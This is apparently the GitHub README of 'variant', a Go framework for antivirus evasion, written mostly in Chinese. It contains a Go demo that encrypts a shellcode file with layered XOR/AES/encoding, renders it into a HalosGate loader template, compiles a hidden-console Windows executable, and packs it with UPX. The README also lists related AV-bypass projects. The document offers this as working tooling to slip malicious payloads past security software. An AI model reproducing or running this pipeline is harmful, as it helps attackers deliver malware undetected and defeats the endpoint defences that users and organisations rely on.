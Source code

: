 # variant

Go Anti-Virus Module Framework

## Description

本项目会不断添加各种免杀的技术，但是**不适合直接不做任何修改的编译和使用**，即使是有随机特征的编译

### 特别说明

1. 本项目不会有 `GUI` 版本
2. 学习Go免杀的代码集合，顺手做了模块化处理，**实际开发未结束，还在持续更新**；
3. 想要实现最好的免杀效果还需要自行修改渲染编译模板，代码提供了三种加载方式的渲染模板。

### 更新日志

1. 模块化配置
2. 编译功能更新
3. 渲染功能更新
4. 压缩功能更新

## Demo

```go
package main

import (
	"fmt"
	"path/filepath"
	"strings"
	"variant/build"
	"variant/crypto"
	"variant/enc"
	"variant/log"
	"variant/rand"
	"variant/render"
)

func main() {
	// 定义模板渲染数据
	data := render.Data{
		KeyName:    rand.RStrings(),
		KeyValue:   rand.LStrings(16),
		IvName:     rand.RStrings(),
		IvValue:    rand.LStrings(16),
		CipherText: rand.RStrings(),
		PlainText:  rand.RStrings(),
		Decrypt:    "XorAesHexBase85Decrypt",
		Loader:     "HalosGate",
	}

	// 设置加密参数
	params := enc.Payload{
		PlainText: "render/templates/payload.bin",
		Key:       []byte(data.KeyValue),
		IV:        []byte(data.IvValue),
	}
	// 加密之后的 shellcode
	tmp, err := params.SignSetKeyIV(crypto.XorAesHexBase85Encrypt)
	if err != nil {
		log.Fatal(err)
	}
	data.Payload = tmp

	// 设置模板的渲染参数
	tOpts := render.TmplOpts{
		TmplFile:     "render/templates/base.tmpl",
		OutputDir:    "output",
		OutputGoName: fmt.Sprintf("%s.go", rand.RStrings()),
		Data:         data,
	}
	// 生成模板
	err = render.TmplRender(tOpts)
	if err != nil {
		log.Fatal(err)
	}

	// 编译参数
	cOpts := build.CompileOpts{
		GoFileName:  tOpts.OutputGoName,
		ExeFileName: fmt.Sprintf("%s.exe", strings.TrimSuffix(tOpts.OutputGoName, ".go")),
		HideConsole: true,
		CompilePath: "output",
	}
	// 编译
	if err = cOpts.Compile(); err != nil {
		log.Fatal(err)
	}

	// 压缩参数
	upx := build.UpxOpts{
		Level:  "-9",
		Keep:   true,
		Force:  true,
		SrcExe: filepath.Join("output", cOpts.ExeFileName),
	}
	// 压缩
	err = upx.UpxPacker()
	if err != nil {
		log.Warn(err)
	}
}

```

### Thanks

https://github.com/Ne0nd0g/go-shellcode

https://github.com/safe6Sec/GolangBypassAV

https://github.com/afwu/GoBypass

https://github.com/piiperxyz/AniYa

https://github.com/wumansgy/goEncrypt

https://github.com/TideSec/GoBypassAV

https://github.com/Pizz33/GobypassAV-shellcode

https://github.com/timwhitez/Doge-Gabh
